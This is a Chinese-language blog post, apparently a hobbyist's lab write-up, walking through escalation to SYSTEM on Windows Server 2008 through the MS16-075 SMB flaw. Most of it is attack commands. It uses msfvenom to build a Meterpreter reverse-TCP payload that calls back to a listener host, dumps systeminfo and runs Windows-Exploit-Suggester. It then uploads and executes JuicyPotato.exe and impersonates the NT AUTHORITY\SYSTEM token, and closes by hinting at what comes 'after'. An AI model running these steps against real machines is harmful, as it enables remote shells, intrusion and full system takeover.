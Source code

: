 # ms-16075提权Windows Server 2008


>光看网上的文章是不够的，还是要多动手才行


#### ms16-075漏洞简介
Windows SMB 服务器特权提升漏洞（CVE漏洞编号：CVE-2016-3225）当攻击者转发适用于在同一计算机上运行的其他服务的身份验证请求时，Microsoft 服务器消息块 (SMB) 中存在特权提升漏洞，成功利用此漏洞的攻击者可以使用提升的特权执行任意代码。
漏洞详情，[请戳这里](https://docs.microsoft.com/zh-cn/security-updates/Securitybulletins/2016/ms16-075)




#### 开始动手
1.假设是msfvenom生成木马，目标执行了，监听会话，获得meterpreter会话权限

```bash
msfvenom -p windows/meterpreter_reverse_tcp lhost=192.168.0.103 lport=4444 -f exe > shell.exe
```

2.先看一下当前权限(确保我没有作弊)
![](https://image.geoer.cn/ms16075_download.png)

3.查看系统信息，并导出
```bash
# (进入cmd)
shell
chcp   65001     # 将编码格式改为utf-8中文
systeminfo >> c:\out.txt   将系统信息输出到out.txt文件
```

4.在meterpreter把结果文件下载到本地

```bash
download   D:\\xxxx\\upload\\out.txt   /tmp/out.txt    
```
![](https://image.geoer.cn/ms16075_download.png)



5.这里选择`Windows-Exploit-Suggeste`提权辅助工具，对结果文件在本地进行分析, 查找系统未打补丁有哪些
```
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py -i out.txt -d 2020-05-09-mssb.xls -l  # -i是systeminfo的结果文件
```
![](https://image.geoer.cn/ms16075_poc.png)

可以看到可能存在ms16-075漏洞
![](https://image.geoer.cn/ms16075_in.png)


6.开始验证
```bash
# 上传ms16-075的exp: JuicyPotato.exe至靶机
upload /root/Desktop/JuicyPotato.exe  C:\\

execute -cH -f  C:\\JuicyPotato.exe    # 执行poc(前面已经把poc上传到目标了), 创建新的进程
impersonate_token "NT AUTHORITY\\SYSTEM"    # 窃取, 假冒目标主机上的可用令牌

```
![](https://image.geoer.cn/ms16075_in.png)

7.查看当前权限，提取成功
```bash
getuid                # 查看当前权限
```
![](https://image.geoer.cn/ms16075_ok.png)


8.后面的事情，嘿嘿你懂得



>这里只是没有防护的情况下的一次简单实验，有点简陋有点水





---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/ms-16075%E6%8F%90%E6%9D%83windows-server-2008/  

